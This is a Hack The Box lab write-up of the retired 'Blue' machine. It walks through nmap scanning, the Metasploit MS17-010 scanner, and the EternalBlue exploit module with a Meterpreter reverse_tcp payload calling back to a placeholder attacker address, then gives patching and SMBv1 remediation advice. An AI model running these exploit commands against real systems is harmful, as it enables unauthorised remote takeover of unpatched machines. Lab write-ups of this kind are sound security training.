



# Blue — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows |
| **Status** | ✅ Retired |
| **Key techniques** | EternalBlue / MS17-010 (SMB RCE) |

---

## TL;DR

Blue is a direct demonstration of **EternalBlue**, the SMBv1 vulnerability
made infamous by WannaCry and NotPetya. A single Metasploit module against an
unpatched SMB service gives an immediate SYSTEM shell — no chaining, no
privilege escalation phase.

---

## Recon & Enumeration

```bash
nmap -T4 -p- -A <TARGET_IP>
```



SMB (139/445) stood out immediately as the only interesting service. Given
the age and simplicity of this box, checking for **MS17-010** was the obvious
first move rather than broader enumeration:

```
use auxiliary/scanner/smb/smb_ms17_010
set rhosts <TARGET_IP>
run
```



The scanner confirmed the target was vulnerable.

---

## Foothold / Initial Access

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts <TARGET_IP>
set payload windows/x64/meterpreter/reverse_tcp
set lhost <ATTACKER_IP>
run
```



The exploit succeeded on the first attempt, returning a Meterpreter session
running as `NT AUTHORITY\SYSTEM` directly — both flags were reachable
immediately, with no privilege escalation required at all.

---

## Lessons Learned

- **EternalBlue remains one of the clearest illustrations of why patch
  management matters** — this single vulnerability, left unpatched, caused
  billions of dollars in damage worldwide via WannaCry and NotPetya. Seeing it
  work firsthand in a lab makes that history concrete rather than abstract.
- **Not every box needs a privilege-escalation phase to be worth
  understanding** — recognizing when an exploit already grants full control,
  rather than assuming more work is always needed, saves time in an
  assessment.
- **A vulnerability scanner module (`smb_ms17_010`) before the exploit module
  is worth running separately** — confirming vulnerability first avoids
  wasting an exploitation attempt against a patched target.

---

## Remediation

- Apply the MS17-010 patch; this vulnerability has been fixed since March
  2017; any host still exposed to it is years behind on critical patching.
- Disable SMBv1 entirely wherever legacy compatibility isn't a hard
  requirement — this closes the entire vulnerability class, not just this
  one CVE.
- Restrict SMB exposure to the internal network only, never to
  untrusted/internet-facing segments.

---

## Tools used

- `nmap`
- Metasploit (`smb_ms17_010`, `ms17_010_eternalblue`)

---

**Machine:** [Hack The Box — Blue](https://www.hackthebox.com/machines/blue)
